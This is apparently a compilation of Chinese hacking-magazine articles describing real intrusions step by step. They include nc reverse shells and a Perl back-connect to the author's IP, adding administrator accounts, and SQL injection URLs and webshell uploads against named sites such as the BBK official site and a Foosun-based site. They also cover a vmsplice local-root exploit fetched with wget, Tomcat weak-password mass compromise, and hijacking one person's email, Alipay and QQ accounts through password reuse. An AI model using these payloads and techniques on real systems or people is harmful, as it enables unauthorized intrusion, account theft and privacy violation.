奇怪了，“net user”都可以执行，按理说就可以添加用户的，难道是权限不够吗？先传个 NC 上去，弹回一个 SHELL 看看（由于在 WEBSHELL 中执行命令，有些回显信息会没有，所以就使用 NC 反弹一个 CMDSHELL，这样看得清楚明白些）。先在本地使用 NC 监听 8088 端口：“nc -vv -l -p 8088”，再上传 NC，在 SHELL 里执行命令“D:\usr\www\bbs\nc.exe -e cmd.exe 你的IP 8088”，如图14。

图15

图16

图17

很显明对方启用了密码策略，要求了最小密码长度和密码的复杂性，所以我们只要添加一个复杂点的密码，就可以成功建立用户了（注意：这个密码包括大小字母、数字以及特殊符号，比如“k86ngFj$”）。

执行命令“net user hack k86ngFj$ /add”来添加用户，再执行命令“net localgroup administrators hack /add”添加 hack 用户到管理员组……最后使用新添加的用户连接3389吧，如图18。

图18

## ——利用社会工程学的渗透

恨天

我是做平面设计的，因此免不了经常下载一些素材啥的，于是就找到了**某站**，下载了后门东西。随后利用默认的数据库地址成功下载了对方的数据库，之后就一直没有管它。这天有时间我看了看，结果利用社会工程学渗透了个人的几乎所有账号。

使用“数据库管理”功能打开下载的数据库，找到会员表，获得了如下信息：账号、密码、性别、提示问题和答案以及电子邮箱，如图1。

图2

图1

打开对方的新浪邮箱，账号使用 anuo****，密码用网站密码55****，成功登录（图2）。我在邮箱里看到很多淘宝和支付宝邮件，还有一封关于花生壳的注册通知邮件，正文里有注册帐号，我仍然使用密码55****成功登录，如图3。

现在开始尝试登录淘宝，还是使用密码55****，提示密码不对；使用生日19810420也不对。又尝试找回：提示问题是英文名是什么？尝试 anuo 不对，anuo**** 成功（图4）。利用找回的密码登录淘宝后，看到了详细信息，如图5。

图3

## 一个人的战争

站的密码，竟然成功登录了，想不到对方的账户里还有1533元呢，如图6。好激动呀，这么多的人民币，好在俺是大好人，一分钱也没动，做人要厚道嘛^_^


登录了这么多的账号，怎能少了QQ呢？但是目前还不知道他的QQ号，我在百度搜索了一下他的邮箱，没有搜索结果，然后我又使用用户名anuo***进行搜索，出来了十几条结果，在一个论坛上看到了他的联系方式，有固定电话、手机以及QQ号，如图7。我试了好多密码都无法登录他的QQ，看来又得找回来了，唉，真麻烦呀^_^


密码提示问题是“nihaoa”，这不就是**坊那个网站的提示问题嘛，答案是“wohenhao”，显示发送了修改密码的通知，如图8、图9。

邮件，于是就又重新找了一遍，可依然没有收到邮件，难道使用的不是这个邮箱吗？我看了一下他的QQ资料，果然还有一个163邮箱，如图10。使用**坊的密码55*****登录这个163的邮箱，成功登录了进去，看见了腾讯发来的修改密码的邮件，如图11。


但是我在他的新浪邮箱里等了半天也没有等到修改密码的邮件。

现在终于成功登录了他的QQ了，我查了一下Q币的余额，居然还有60多个呢，如图12，这人还真有钱，而且还不是一般的有钱。在163邮箱里还有一封校内网的注册邮件，我使用55*****也成功登录了。看了一下他的资料，原来是清华大学医学系毕业的，想不到学医的居然跑去搞摄影了，性别填的是女，也不知道这资料是真的还是假的，如图13。


至此，他在网上几乎所有的账号我都已成功登录过了，可见在多个网站使用同一个账号及密码所带来的危害是极其严重的，由此给大家提几点建议：

- 1、如果不是必须，不必填写你的个人资料，在允许留空的地方留空就行了。
- 2、如果不是必须，不必填写你的真实资料，如果可以的话，不妨填写一个虚拟的资料。如果你怕以后忘了，可以填写一个固定的虚拟资料，把它保存在一个地方，比如你的邮箱里。
- 3、E-mail、手机号码等不要直接发布在公开显示的地方，只要公开了，处于可被搜索引擎抓取的地方，那你可能就身处危险之地了。
- 4、避免你的昵称和真实身份联系在一起，假如你不想让身边的人知道你网上的身份，或者不想让网上的人知道你真实身份的话。
- 5、谨慎使用“记住密码”的功能，随时清除cookies。这一点对多人共用计算机更适用。
- 6、不要一个邮箱通天下，用于注册服务和发送私人邮件的E-mail应该分开，这样可以保证最大的安全。
- 7、不要一个昵称通天下，想想moop的人肉搜索吧，如果在多个网站、论坛使用同一个昵称，如果别人需要，可以很容易追踪到。
- 8、不要一个密码通天下。至少，你使用某一个服务时，你的服务密码和在这个服务里所留的E-mail密码不要一样。
- 9、如果短时间内有大量QQ添加你为好友，请拒绝。QQ号码申请时的条件之一就是知道你好友里的五个号码。
- 10、对外不要泄露太多的秘密，否则很容易让别人用以社会工程学。

（文章中涉及到的明小子旁注入侵工具已经收录在光盘中）

### 对步步高官方网站的安全检测

Spookzang & Maxi1

前几天，同学新买了一个步步高的电子词典，他说是为了提高英语的学习成绩，方便他随时随地地查询单词才买的。不过，我感觉他是为了能够随时随地地玩游戏才买的。趁着周六休息，我把他的步步高电子词典借过来玩了玩。可是，里面自带的游戏太少了，于是我决定到步步高的官方网站去下载一点游戏回来玩。

在Google里搜索关键词“步步高”，很快就有了一堆关于步步高的网站。我打开了步步高的官方网站 http://www.gdbbk.com/ ，网页界面做得很漂亮啊，会不会有漏洞呢？这时，我发现了这么一个链接“http://www.gdbbk.com/productsinfo_jy.asp?id=672&pid=27”（图1）。


一个邪恶的念头浮现在了我的脑子里：为什么不在URL后面加一个“'”呢？不知不觉，我就在这个URL后加了一个单引号，提交 http://www.gdbbk.com/productsinfo_jy.asp?id=672&pid=27 ，返回了“请不要提交非法字符”，看来是做了防注入处理了（图2）。


看来这条路是行不通了，就在这时，我又发现网站上有个产品搜索的功能（图3），那会不会存在搜索型注入点呢？于是我在搜索栏里填入了“333”，然后点击“搜索”，结果还是不行，搜索这里也有防注入处理，这可怎么办呢？我陷入了沉思……


你没有漏洞，我就不信跟你同一主机的其它网站没有漏洞！打开 http://www.scolops.com/ip-domains.html （我经常使用的一个旁注查询网站），然后输入步步高网站的网址，等了一会儿，结果出来了（图4）。

服务器上一共有12个站点，一个个地来尝试，在我尝试到 http://finish.whir.net.cn 这个网站时，发现了一个注入点“http://finish.whir.net.cn/rollei/2006/newsinfo.asp?id=63”（图5）。把这个注入点扔到 HDSI 里进行检测，竟然说是 SA 权限（图6）。

不过别高兴得太早了，因为很有可能并不是 SA 权限。即使是 SA 权限，如果管理员在 net.exe 和 net1.exe 做了限制的话，我们还是无法执行命令的。于是我决定先找目录，找到网站的路径后再说。经过N个小时的努力，终于在F盘里找到了这个网站的目录 F:\FinishWeb\rollei\2006，然后就是使用备份数据库的方法拿到了一句话木马的 shell（图7）。

我本打算通过它来上传功能更强的 ASP 木马的，但是却失败了，无法上传文件，这可怎么办呢？既然这里上传不了文件，那么我就去你的后台上传一个后缀为 jpg 的文件，然后再通过一句话木马，把后缀为 JPG 的文件重命名为 ASP 的文件，这样就可以得到 webshell 了。我随便对着一个新闻里的图片点击鼠标右键，选择“属性”来查看这个图片的网址，发现是 http://finish.whir.net.cn/rollei/2006/back/Upload/s_200711622391456670.jpg 。我感觉 http://finish.whir.net.cn/rollei/2006/back/ 很有可能就是后台的路径，于是打开那个网址，很幸运，后台展现在我们的眼前了（图8）。


有了后台，密码就好办了，因为是 MSSQL 注入点，即使经过 MD5 加密的密码破解不出来，我们也可以通过 update 语句来更改密码。好在用户名和密码非常简单，全是 root。我拿着密码登录后台，在后台选择“产品信息”，然后选择添加，就出现了我们非常熟悉的 cwebeditor。我曾尝试 cwebeditor 默认的登录页面，想从那里拿到 webshell，但是默认的登录页面被删除了。不过没有关系，我们上传 jpg 格式的文件就可以了。我把 ASP 木马重命名为 xx.jpg，然后选择上传。很快就上传成功了，并给出了网址 http://finish.whir.net.cn/rollei/2006/back/eWebEditor/uploadfile/20080309103010763.jpg 。但是，当我选择这个网址进入时，却提示说“无法找到该网页”（图9）。


上传竟然没有成功，莫非这个就是传说中的傀儡后台吗（小编注：也有可能是这个网站的上传程序有问题）？这时我考虑到，既然步步高的官方网站和这个网站是在同一主机上，那么数据库肯定也是在一起的；又因为是 SA 权限，那么我通过跨库来找到步步高官方网站的密码也是有可能的。经过努力的寻找与尝试，我终于发现了步步高官方网站的用户名和密码竟然也是 root……我选择“产品数据库”，然后选择添加视听产品（图10）。


这时我又发现了 cwebeditor，不过登录页面还是被删除了……我还是上传了一个被重命名为 XXX.JPG 的 ASP 木马，提示上传成功，并给出了网址 http://www.gdbbk.com//back/edit/uploadfile/20080309105455660.jpg 。我打开网址，惊喜地发现，这回真的成功了（图11）。

我又想到通过 SA 注入点把一个 VBS 下载者写上去，然后通过 SA 来执行这个 VBS……提示说“内容写入结束，祝您好运”，我尝试执行却没反应，后来在 webshell 里查看，发现对方服务器上装了卡巴斯基，把我上传的文件删除了。


但是问题也随之而来，我并不知道步步高官方网站的绝对路径，只能通过一句话木马慢慢寻找。最终，我确定E盘的 E:\ServiceWeb\gdbbk 就是官方网站的绝对路径……在第二行写入要复制到的路径，我填的是 E:\ServiceWeb\gdbbk\back\edit\uploadfile/2008030910545560.asp ，结果成功了（图12）。

进入 webshell，第一个想到的就是利用 serv-u 提权……我在 HDSI 里尝试执行 `net user spookzang spookzang /add` 来建立用户，但执行了半天也没反应，网站一度打不开，服务器重启后才恢复，网站才能正常访问。我又尝试使用 SQLTools.exe 连接上去后执行命令，能够成功地连接上去，但就是不能执行命令，一执行命令，数据库就断开了连接，然后网站打不开了，服务器重启，莫非这真是传说中的 RP 问题吗？


这时，我跟 Maxi1 讨论了一下，并在网上搜索了一下相关文章，发现核心的雪曾经写过一篇关于 SQL 无法执行 DOS 命令的文章。文章说，虽然 xp_cmdshell 不能使用，但是我们还可以使用 SP_OACreate，它也是能执行 DOS 命令的……（含 `DECLARE @shell INT EXEC SP_OACreate ...`、`cmd.exe /c net user ... /add` 等命令示例）。

……`wscript.shell`、`@shell OUTPUT EXEC SP_OAMETHOD @shell,'run',null,'C:\Windows\system32\cmd.exe /c net localgroup administrators spookzang /add'`，就是把 spookzang 提升为管理员，最后使用新增用户成功连接3389登录。（图14）本次入侵之所以成功，主要归功于注入点；过程中多次受阻，但最终完成。文末附注：文中涉及工具 HDSI3.0 已收录在光盘中。


## 让文字都来学会 PHP 注入

最近国外大片比较多，所以我在上网时就比较关注电影院里的电影上映排档，于是就有了下面针对本市某电影网站的一次综合检测过程。

#### 一、信息收集

通过扫描得知目标服务器开放了21和80端口，目标站点为 ASP 整站程序；在 `www.114best.com` 查询发现绑定了多个域名（图1），判断为虚拟主机，其中既有 ASP 站也有 PHP 站。先从目标站点链接入手，测试注入：`http://www.testAsp.com/gb/action_detail.asp?nid=90'` 等，请求返回错误后继续以 `%69`、`and 1=1/1=2` 验证，确认存在注入漏洞。再用 NBSI 检测，发现注入点权限为 public（图2），并可通过跨库发现更多数据库信息。


#### 二、PHP 旁注

经过测试，其它两个 ASP 系统注入点同样是 public 权限，因此转向 PHP 站点：提交 `http://www.testPhp.gov.cn/news_detail.php?nid=3031'` 后暴露路径 `D:\www.testPhp.gov.cn\`（图3）。继续使用 `order by` 判断列数为15，再以 `union select` 定位可显示列，尝试 `load_file('c:/boot.ini')` 读取文件。由于 PHP `magic_quote` 转义导致报错，将内容转为16进制后再次提交，成功得到系统版本信息（图4）。


试验成功了我们就可以去 load 其它路径的文件了，首先使用D盘做路径，load 了一个目标站的一个 asp 文件，发现目标站点并不在D盘。而使用桂林老兵的 WebTools 对 PHP 站点进行路径扫描后也没有发现后台，旁注一时也陷入了困境，陷入了即使拿到管理员密码也没有后台登录的局面。

```php
$upass=md5($_HTTP_POST_VARS["password"]);
$query="select uid,uname,uadmin,utname,upermit from admintab where_tname='$uname' and upass='$upass'";
```

顺利拿到用户列 uname、密码列 upass 和管理员表 admintab。通过代码可以看到密码是经过 md5 加密的，但是仍然可以碰下运气。

接着就可以爆密码了，提交 `http://www.testPhp.gov.cn/news_detail.php?nid=3031 and 1=2 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,concat(uname,0x7c,upass),15 from admintab`，得到了管理员的账号和密码（图6）。


#### 三、新的缺口

无奈之下只能靠猜路径了，要得到网站位置和结构，最好的方法无疑是去 load ServU 的配置文件。我从C盘开始试 `c:\program files\serv-u\ServUdaemon.ini`、`c:\serv-u\servudaemon.ini`，结果试到D盘的时候 load 出了配置文件（图5），路径是 `d:\serv-u\ServUdaemon.ini`。

在 www.cmd5.com 里查询得出的密码明文是1234，顺利登录进了后台。


配置文件里几乎包含了所有站点的后台和数据库目录，后台路径是 `/maintain/`，而且目标站点的路径原来是 `e:\www\www.testAsp.com`。有了后台地址就可以爆管理员的密码了，点开管理员登录页面看源码，通过 action 找到验证登录的 php 文件，代码为 `<FORM name=f1 action=loginadmin.php method=post>`，只要 load 出 loginadmin.php 就可知道管理表、用户列名和密码列名，从而可以避免繁琐的猜测了，最后得到了以下关键代码。

```php
$uname=$_HTTP_POST_VARS["user"];
```


## 四、跨目录传 Webshell

继续在后台里寻找能够利用的地方时，我发现增加资料模块调用的是 PHP 版的 eWebEditor（图7），于是就下了套 PHP 版的 eWebEditor 回来分析，结果发现 PHP 版的登录账户和密码是明文保存在 `/php/config.php` 里的，所以只要 load 出这个配置文件，就可以登录进去了（图8）。关于 ASP 版的 eWebEditor 拿 WebShell 的方法大家都十分熟悉了，而 PHP 版使用的同样也是在样式里添加后门格式的办法，由于篇幅这里就不做详细说明了。

最后成功访问了一个 PHP Shell，目标站是在 E 盘，而服务器配置限制了目录跳转，所以这时还能利用的是权限较高的 MySQL 了。在 phpMyAdmin 目录里的 `config.inc.php` 里找到了数据库连接代码，内容如下：

```php
$cfg['Servers'][$i]['host'] = 'localhost';
$cfg['Servers'][$i]['extension'] = 'mysql';
$cfg['Servers'][$i]['port'] = '3306';
$cfg['Servers'][$i]['connect_type'] = 'tcp';
$cfg['Servers'][$i]['compress'] = false;
$cfg['Servers'][$i]['controluser'] = 'root';
$cfg['Servers'][$i]['controlpass'] = '...';
```


在 PhpSpy 里有 MySQL Manager 功能，首先使用 root 用户和空密码连接上 MySQL，然后再利用 MySQL 的输出功能来导出一个 ASP Shell 到目标站点。连接后选择一个数据库，然后依次执行以下 SQL 语句：

```sql
create table x(cmd text);
insert into x values(0x3c256576616c2072657f...);
select * from x;
select * from x into outfile 'e:/www/www.testAsp.com/sand.asp';
```


最后成功地拿到了目标站点的控制权（图10）。（文章中涉及到的 NBSI3.0、海阳顶端 ASP 木马 2006，已经收录在光盘中）

## 狂人漏洞，掀起了 BBSXP2008

黄正

最近看自己学习的效果还算不错，满足了自己很多要求，其中就有机会和时间阅读 BBSXP 的代码。我觉得在漫长的代码中寻找漏洞是一件很快乐的事，尤其是在学习了几个小时的函数之后，那更是一种享受！不信？那各位就去试试吧！

BBSXP 在无数高手的挖掘之下已经成了一个比较安全的论坛了，只要打开一两个文件阅读一下代码就知道了。在过滤变量时 BBSXP 把它们分成了三类：

- 1. requestint 进来的数字型
- 2. 经过过滤函数 HtmlEncode 过滤的字符型
- 3. 不经过滤函数检查类型，但使用 `len(str)` 检查长度

在这样一个大体的检查过滤思想下，BBSXP 对于变量的过滤还是很严格的。那么又有哪些地方可能会出现问题呢？我认为可以分为两类：一类是经过滤函数 HtmlEncode 过滤的字符型变量在参与数据库查询或更新操作时没有使用单引号、双引号闭合；另一类则是 request 进来未经过滤函数检查的类型，没有用 `len` 检查长度，导致可以构造语句而做到本不可以做到的事情。

#### 一、MSSQL 篇

经过 2 月 23 日的那次重大更新，过滤函数威力大增，比如过滤 `'`、`(`、`)` 等。大家都知道，BBSXP 有个全局变量 TablePrefix，这是个表名前缀，它的尾部一般就是 `_`。面对这样的防注入函数该怎么办呢？被这样的防注入函数过滤的变量一定没戏，不管参与查询时是否有被单引号闭合。那么漏洞会出现在哪里呢？聪明的朋友可能已经想到了，那就是上文所说的不经过滤函数检查类型……问题是出现在 `MoveThread.asp` 里。

```asp
<%
if CookieUserName="" then error("您还未<a href=\"javascript:BBSXP_Modal.Open('Login.asp',380,170);\">...")
%>
```


```asp
登录</a>论坛→ 保存Cookie登录即可

ThreadID=Request("ThreadID")
If Not IsNumeric(ThreadID) then
  ThreadIDArray=Split(ThreadID,",")
  if IsArray(ThreadIDArray) then
    for i=0 to Ubound(ThreadIDArray)
      if Execute("Select ThreadID from ["&TablePrefix&"Threads] where ThreadID="&ThreadIDArray(i)&"")(0) eof then error("<li>系统不存在该帖子的资料")
    next
    ThreadIDSql=int(ThreadIDArray(0))
  else
    error("参数错误")
  end if
Else
  ThreadIDSql=int(ThreadID)
End If
ForumID=Execute("Select ForumID From ["&TablePrefix&"Threads] where ThreadID="&ThreadIDSql&"")(0)
<!-- #include file="Utility/ForumPermissions.asp" -->
```

先执行了查询，后判断了权限，导致普通用户就可以进行 SQL 注入。我们构造 `http://www.target.com/movethread.asp?ThreadID=1,1'` 这样的 URL 进行提交，返回了出错信息。

> Microsoft JET Database Engine 错误 '80040e14' ... 在查询表达式“在筛选表达式 'ThreadID=1' 中...”

我测试时的提示为：

> Microsoft OLE DB Provider for SQL Server 错误 '80040e14' ... 字符串 '__' 之前有未闭合的引号。

暂且认为出现了这两种情况就说明漏洞是存在的。由于该参数可以说是没有经过任何过滤便带入查询，使得漏洞的利用极其简单。我们提交 `http://127.0.0.1:800/bbsxp/MoveThread.asp?ThreadID=1,1 having 1=1`，返回了如图1所示的提示。


这步的作用是爆出表名的前缀，否则可能会在下一步中出错。可以从 `BBSXP_Threads.ThreadID` 中看出表名前缀为 `BBSXP_`。我在本地测试时没有改动，在实际测试过程中要根据爆出的表名改动。继续提交 `http://127.0.0.1:800/bbsxp/MoveThread.asp?ThreadID=1,1 update bbsxp_users set UserRoleID=1 where Username='joy'`，返回了如图2所示的信息。


直接点击上图红框的“管理”，登录后台，在主机环境变量处得到网站的物理路径。视情况不同可以分成绝对路径和相对路径两种。相对路径需要列目录来得到绝对路径，得到绝对路径后就可以直接备份小马了，依次提交下面的语句：

```sql
http://127.0.0.1:800/bbsxp/MoveThread.asp?ThreadID=1,1; alter database bbsxp2008 set RECOVERY FULL
http://127.0.0.1:800/bbsxp/MoveThread.asp?ThreadID=1,1; create table cmd (a image); backup log bbsxp2008 to disk='...'; cmd_shell init
http://127.0.0.1:800/bbsxp/MoveThread.asp?ThreadID=...&insertinto=cmd(a).value="?\'exec+insert..."
http://127.0.0.1:800/bbsxp/MoveThread.asp?ThreadID=...1
backup log bbsxp2008 to disk="c:\wwwroot\joy"
```

其中 `c:\wwwroot\` 为网站的绝对路径。如果小菜们感觉这样比较麻烦的话，可以直接使用 GetWebshell，“数据库”就填写 BBSXP 安装时默认的 `bbsxp2008`，选择数字型，不然会提示有未闭合单引号，然后一步步地来。第一步时可能会提示未登录，我们登录即可，如图6。

耐心点，等页面加载完后看是否出错。如果返回如图7所示的页面时，就说明本次提交是成功的。我在本地测试，打开 `d:\bakup\`，确实得到了小马，如图8。至于有了小马，按下来的传大马、提权之类的就由大家各自发挥吧！


#### 二、ACCESS 篇的疑惑

我们分别提交 `http://127.0.0.1:800/bbsxp/MoveThread.asp?ThreadID=1,1 and 1=1` 和 `http://127.0.0.1:800/bbsxp/MoveThread.asp?ThreadID=1,1 and 1=2`，因为只会返回两个页面，分别是查询正确和错误，为了方便我做了下标记，如图9和图10。


图10

继续提交 `http://127.0.0.1:800/bbsxp/MoveThread.asp?ThreadID=1,1%20and%20<> (select%20count(*)%20from%20bbsxp_users)`，如果返回图9，就说明存在 `bbsxp_users` 这张表；继续提交 `http://127.0.0.1:800/bbsxp/MoveThread.asp?ThreadID=1,1%20and%201=(select%20count(*)%20from%20bbsxp_users%20where%20len(username)=5)`，返回了图9，则 `username` 长度为 5；继续提交 `http://127.0.0.1:800/bbsxp/MoveThread.asp?ThreadID=1,1 and 1=(select count(*) from bbsxp_users where username='admin')`，说明有一个用户名为 `admin`，一般是默认管理员，或者大家在论坛上直接找到管理员的用户名。

麻烦的是猜密码，事实上两个返回的页面都是出错的页面，只是错误出现的地方不一样，所以 `union select` 语句在这儿是用不了的。那么 Access 数据库的记录就只能一位位地猜，但是 `asc(mid(password,1))` 语句中是不可避免地要用到 `,`，而在这里，逗号又是分割数组的标志，这就会导致注入语句在 `asc(mid(password` 处便会被截断，导致注入语句不完整而出错。这个问题我想了好些天也一直没有结果，所以最后我的结论是 Access 版无法利用。希望高手们能够帮我这个小菜鸟解决这个问题。


图11

这个漏洞已经被 BBSXP“秘密”地修补了，但是却没有给出公告或改版本之类的消息（也有可能是我没有看到吧）。首页下载处的最新版本仍为 2 月 23 日的 8.04 版，下载的压缩包中 `MoveThread.asp` 修改时间为 3 月 21 日，如图11。官方论坛的置顶帖中仅修正了 `new.asp` 和过滤函数，这就有可能导致 3 月 21 日之前在官方网站或者没有更新的源码下载网站下载搭建的 BBSXP 8.04 版本论坛可以被注入。个人认为，当前应该 60% 以上的 BBSXP2008 8.04 MSSQL 版存在该漏洞。大家想一想，有谁会在官方没有更新时去重新下载自己以为同样的源码来替换自己的网站呀，如果你会，那确实只能说明你是很傻很天真。

> （文中涉及到的 GetWebshell 已经收录在了光盘中）

## 艰难的由 WebShell 到 ROOT 权限的过程


我经常玩 Windows 下的入侵，相信很多人都对 Windows 环境下的入侵很熟悉了，但接触 Linux 系统的人却不多。我一直以来就想写一篇关于 Linux 系统下的入侵文章，可是一直苦于没有时间。至于如何确定服务器使用的是不是 Linux 系统，有很多的方法，不过本文并不讲这个问题。打开一个网址 `http://xxx/zh4/xydtl.php?id=68`，分别在后边添加 `and 1=1` 和 `and 1=2` 进行提交，结果一个返回了正常页面，一个返回了错误页面。我们可以初步断定存在注入漏洞。本文的重点不是学习 PHP 的手工注入，或许手工注入更适合学到一些原理性的东西，但今天我们的目的是得到 WebShell，所以自然是选择使用更方便的工具了。

我们这次要使用的工具就是传说中最牛的注入工具 pangolin。打开工具把刚才的注入点填到 “URL” 里，然后点击 “check”，工具就会自动分析了，如图1。得到的信息直观地显示在下面，可以知道这是数字类型的注入点，数据库为 MySQL。还是先来找网站的后台，在访问 `http://xxx/zh4/admin/index.php` 的时候出现了登录页面。接下来就是很原始的方法，获取数据然后从后台登录，再在后台里寻找可以得到 WebShell 的地方。

还是使用工具来搞吧，我们仍然使用 pangolin。它在数据库猜测方面做得非常不错，如果是 MySQL 5.0 以上的数据库，那么就可以利用 MySQL 5.0 的 `information_schema` 系统数据库来迅速得到数据，避免无法猜到表或列的情况。而且 pangolin 还利用了 UNION 查询，能够迅速地得到数据。

`include/config.inc` 这个文件不用说肯定是连接数据库的文件了，里面包含了连接数据库所需要的信息。把它的内容读取出来，如图7，其中的数据库名是 `gjwhj`，和我们注入点的那个数据库是不同的，可以知道它使用了不同的数据库。在 MySQL 里是可以有很多个数据库的。

在 pangolin 中切换到 “Datas” 选项，点击 “tables” 就会得到当前数据库中的表名；选中某个表后点下边的 “Columns”，就可以得到当前表中所有列的名称；勾选相应的列名，点击右边的 “Datas”，就可以得到数据了，如图2。


得到管理员的用户名和密码后，就可以登录后台了，如图3。在后台里转了半天实在找不到什么可以利用的地方，看来在后台得到 Shell 的办法是不行了。


MySQL 不是还可以读取服务器上的文件吗？我们先读取网站的默认配置文件 `/etc/httpd/conf/httpd.conf`，看看能不能得到网站的路径。切换到 pangolin 的 “FileReader” 选项，填好路径，点击后边的 “Read”，运气不错，成功地读取出来了，如图4。在里面找到有 `DocumentRoot` 的字符串，跟在后面的就是网站的绝对路径。知道了网站的路径，我们来读取网站的首页文件 `/var/www/html/web/index.php`，在文件里面我们又发现了一个管理登录的地方，如图5。

继续读取文件 `admin/adminlogin.php`，在这个文件里又包含了一个新的文件进来，如图6。


## 一个人的战争

好了，下面看我如何在工具里实现跨库查询数据。切换到 pangolin 的“Informations”选项，选择所有，点击“GO”，就能得到一些数据库的信息了。在最下面列出了 MySQL 所有的数据库，在这里我们看到了“gjwhj1”数据库，选中“gjwhj1”，点击上面的“Use this database”，就把数据库切换到“gjwhj1”了，如图8。

然后重复上面所介绍的简单盗取数据的方法再次窃取数据，得到了管理员用户名和密码，如图9。获得到的密码登录后台，这个后台有可以上传的地方，如图10、图11。得到上传的地址，我可爱的 C99 木马已经在那里等着了，如图12。才 5G 的硬盘，好瘦弱的一只小鸡啊，瘦归瘦，但好歹也是一台 Linux 系统的肉鸡呀！


把我的 cb.pl 上传到 /tmp 目录下，默认 /tmp 目录的权限是所有人可写可执行的。cb.pl 是使用 Perl 编写的一个反弹连接后门，可以让服务器连接我们本地监听的端口并得到一个 SHELL。首先在本地执行“nc -vv -l -p 12345”来监听 12345 端口，然后在 WEBSHELL 里执行“cd /tmp”“perl cb.pl 222.65.44.88 12345”，222.65.44.88 是我自己的 IP 地址。如果成功的话，本地的 NC 窗口就会有反应，如图14。这样我就得到了一个远程的 SHELL，剩下的事情就要在这里面完成了。


本来入侵到这里就可以结束了，可是好多朋友都会问：得到 WEBSHELL 有什么用，怎么才能把这个 SHELL 变成自己的肉鸡，然后在上面建个 CS 服务器，就可以自由拼杀了。当然，想完全控制这台机器，使用 WEBSHELL 是远远不够的，我们还得得到管理员权限。在 Linux 系统的入侵中，我就为大家介绍一下最经典也是最常用的利用本地溢出来提升权限。在 C99 的“Command execute”里执行 id 和“uname -a”，也就是查询当前用户的 ID 和用户组 ID 以及 Linux 系统版本信息，如图13，可以得知内核版本为 2.6.18。为了方便操作，我们还得先反弹回本地一个 SHELL。


接下来我们要寻找一个本地溢出漏洞的利用代码。我在 milw0rm.com 上找到了“Linux Kernel 2.6.17 - 2.6.24.1 vmsplice Local Root Exploit”，这个内核漏洞比较严重，大部分 Linux 系统都可以被成功溢出。先把代码保存为 vmsplice.c，然后上传到我们自己的空间上，例如我上传后的地址为 http://125.67.67.209/vmsplice.c，在刚才得到的本地 SHELL 窗口中执行“wget http://125.67.67.209/vmsplice.c -P /tmp”，如图15，显示传输成功。

执行“cd /tmp”切换到 /tmp 目录，然后使用 gcc 编译我们的漏洞利用代码“gcc vmsplice.c -o vms -static -Wno-format”，如图16，没有提示任何错误信息，编译成功了。关键的时候到了，运行一下来看看“/tmp/vms”，程序开始执行，如图17。我们再输入 id 看看，已经是 root 权限了：“uid=0(root) gid=0(root) groups=1(bin),2(daemon),4(adm),7(lp)”。


梦想的 root 已经拿到了，剩下的事情就是装个 rootkit、擦 PP 等事情了，咱不做坏事，那些事情就不做了，最后给管理员发个邮件就闪人吧。（文章中涉及到的 pangolin、cb.pl、vmsplice.c、poisang.php 已经收录在光盘中）

### 跟我学风讯最新注入漏洞的利用

姬良[黑色技术]

风讯 API_Response.asp 最新注入漏洞是前几天刚刚被公布出来的，受影响的版本为 4.0 SP5 mssql 版。其漏洞产生的原因主要是由于 API/API_Response.asp 文件中变量 username 未经过滤传值，就带入了 SQL 中执行而造成的。

我们爆出了管理员的密码。为了方便新手朋友们使用该漏洞，我们以 lcs 写的一个极其简陋的 hta 来介绍这个漏洞的利用。

我们打开挖掘鸡 6.5，在主界面上点鼠标右键，选择“添加”，添加一个新地址“/user/setnextoptions.asp”，如图1。


双击打开 hta 文件，程序界面如图5所示。在利用工具的第一个输入框中填入刚才找到的那个有漏洞的网址，再在后边添加上“user/setnextoptions.asp”，也就是构造成“http://www.gywb.cn/user/setnextoptions.asp”这样的网址，如图6。然后点击下拉列表，选中“爆管理员用户名”，这样在下边的空白框里就会看到回显，回显代码如下：

```html
<select name='NoName_Sys' id='NoName_Sys'>
<option value='0'>不限制</option>
<option value='1' style='color:#0000FF' selected>geoadmin</option>
</select>
```

然后点击开始搜索的那个播放按钮，挖掘鸡就开始工作了。不一会儿就搜索到了一大堆使用风讯的站点，如图2。我们从中随便选择一个，在浏览器的地址栏里输入在挖掘鸡中搜索到的网址，比如 http://www.gywb.cn/user/setnextoptions.asp，返回了如图3所示的错误提示信息。看到这个提示信息，就证明该网站存在漏洞的可能性极大了。


在浏览器的地址栏里输入：

http://www.gywb.cn/user/setnextoptions.asp?EquValue=1&ReqSql=select%201,ADMIN%20password,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51%20from%20FS_MF_ADMIN%20where%20id=1--

提交后出现了如图4所示的界面，很明显。


从上边的代码中不难看出，其中的 geoadmin 就是管理员的用户名了，如图7。使用同样的方法，我们再来爆一下管理员的密码，得到的回显如下：

```html
<select name='NoName_Sys' id='NoName_Sys'>
<option value='0'>不限制</option>
<option value='1' style='color:#0000FF' selected>...</option>
</select>
```

```html
a16b4c49ff4fd45d</option>
</select>
```

其中的 a16b4c49ff4fd45d 就是管理员 admin 的密码 md5 值，通过在线 md5 查询可反查。随后尝试将管理员密码改为 1。


在下拉列表中选择最后一个选项（“改管理员密码为1”）后，得到如下回显。

```html
<select name="NoName_Sys" id="NoName_Sys">
<option value="">不限制</option>
<option value="dbo">dbo</option>
</select>
```

继续查看管理员密码，发现变为 `a0b923820dcc509a`，该 md5 对应值为 `1`。

“密码，我们就可以进行登录了。”


文章继续说明：即使无法登录后台，也可通过 SQL 注入等方式进行绑定与验证，并给出注入语句示例。

```sql
EquValue=1&ReqSql=select user;
update FS_MF_ADMIN set ADMIN_pass_word='a16b4c49ff4fd45d' where id=1;
.../setnextoptions.asp?EquValue=1&ReqSql=select ...
```

后续段落总结该站点数据库连接权限与利用思路，并提示在找不到后台时可尝试数据库权限方向获取 webshell。

### 批量抓肉鸡之我用 Tomcat

txcbg


Tomcat 是轻量级应用服务器，常用于 JSP 开发与调试。文中介绍其背景（Apache 基金会、Jakarta 项目）及在 Java Web 中的普及。

作者回顾通过弱口令登录 Tomcat 管理后台并上传 war 包获取 webshell 的思路，提到随后出现了批量扫描弱口令工具。

右栏介绍所需工具（Apache Tomcat Scan、扫描器、war 文件），以及将 jsp 木马打包进 war 的方法与注意事项。

最后给出扫描流程：先搜集 URL/目标，再转换 IP，重点检查 8080（及部分 80）端口，判断是否存在 Tomcat 弱口令服务。

